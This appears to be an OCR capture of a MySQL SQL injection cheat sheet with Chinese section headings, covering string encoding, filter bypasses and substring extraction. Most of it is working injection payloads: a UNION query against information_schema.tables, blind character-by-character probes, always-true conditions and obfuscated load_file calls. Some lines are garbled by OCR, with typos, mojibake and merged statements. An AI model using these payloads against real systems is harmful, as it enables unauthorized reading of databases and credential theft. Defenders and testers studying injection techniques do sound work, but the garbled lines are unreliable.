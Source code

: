 ```
'union(select(1),tabe_name,(3)from`information_schema`.`tables`)#

#有引号的字符串
SELECT 'a'
SELECT "a"
SELECT n'a'
SELECT b'1100001′
SELECT _binary'1100001′
SELECT x'61′

#没有引号的字符串
　'abc' = 0×616263
　　' and substr(data,1,1) = 'a'#
　　' and substr(data,1,1) = 0x61 # 0x6162
　　' and substr(data,1,1) = unhex(61)    # unhex(6162)
　　' and substr(data,1,1) = char(97  )# char(97,98)
　　' and substr(data,1,1) = 'a'#
　　' and hex(substr(data,1,1)) = 61#
　　' and ascii(substr(data,1,1)) = 97#
　　' and ord(substr(data,1,1)) = 97# 
　　' and substr(data,1,1) = lower(conv(10,10,36))# 'a'

#别名
select pass as alias from users
select pass`alias alias`from users

#字型
' or true = '1 # or 1=1
' or round(pi(),1)+true+true = version() # or 3.1+1+1 = 5.1
' or '1 # or true
#操作符字型
select * from users where 'a'='b'='c'
select * from users where ('a'='b')='c'
select * from users where (false)='c'

#认真绕过'='
select * from users where name = "="
select * from users where false = "
select * from users where 0 = 0
select * from users where true#函数过滤器ascii (97)
load_file/*foo*/(0×616263)

#用函数构建字符串
'abc' = unhex(616263)
'abc' = char(97,98,99)
 hex('a') = 61
 ascii('a') = 97
 ord('a') = 97
'ABC' = concat(conv(10,10,36),conv(11,10,36),conv(12,10,36))

#特殊字符
　　aes_encrypt(1,12) // 4鏷眥"^z譎é蒃a
　　des_encrypt(1,2) // 侴Ò/镏k
　　@@ft_boolean_syntax // + -><()~*:""&|
　　@@date_format // %Y-%m-%d
　　@@innodb_log_group_home_dir // .\

@@new: 0
@@log_bin: 1
#提取子字符串substr('abc',1,1) = 'a'
substr('abc' from 1 for 1) = 'a'
substring('abc',1,1) = 'a'
substring('abc' from 1 for 1) = 'a'
```